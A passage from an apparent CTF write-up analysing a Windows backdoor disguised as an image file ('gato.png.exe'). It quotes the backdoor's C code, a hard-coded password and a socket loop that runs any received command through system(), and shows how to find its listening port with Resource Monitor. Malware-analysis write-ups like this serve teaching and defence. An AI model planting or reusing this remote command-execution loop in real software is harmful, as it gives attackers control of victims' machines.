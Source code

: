This password is stored in plaintext in the top of the code.

```c
char *correct_password = "who_leaves_their_door_open?";
```

```c
    while (password) {
        memset(buffer, 0, 256);
        n = recv(newsockfd, buffer, 255, 0);
        if (n == SOCKET_ERROR) {
            printf("ERROR reading from socket\n");
            closesocket(newsockfd);
            break;
        }

        if (strncmp("shutdown", buffer, 8) == 0) {
            send(newsockfd, "Shutting down.\n", 15, 0);
            password = 0;
            closesocket(newsockfd);
            break;
        }

        system(buffer);
        send(newsockfd, "Command executed.\n", 18, 0);
    }
}
```

This loop continues as long as the password is valid. It waits for commands from the attacker.

If a command begins with **"shutdown"**, it responds with a shutdown message, sets the password to 0 (disabling the backdoor), and closes the connection.
If the command is anything else, the system(buffer) function executes the command directly in the victim's command line interface (CLI), and a confirmation message is sent back to the attacker.

Now to the "hard" part of the challenge, we need to find the port number.
For this part, it was hinted in the source code that you could use the resource monitor. It comes preinstalled with windows which is great.
According to Wikipedia: *Resource Monitor, a utility in Windows Vista and later, displays information about the use of hardware (CPU, memory, disk, and network) and software (file handles and modules) resources in real time.*

So, for this part of the challenge, we execute the malware .exe file, open ressource monitor *(resmon command)* -> network -> listening ports and look for gato.png.exe process.

![Ressource monitor](/assets/friendly/beb_tileni/Ressource_monitor.png)

Resource monitor is great when it comes to malware analysis. Here's [an article]( https://isc.sans.edu/diary/Diagnosing+Malware+with+Resource+Monitor/13735/) that displays its usage for this kind of tasks.

**Flag: Securinets{Backdoor_127.0.1_15233_who_leaves_their_door_open?_shutdown}**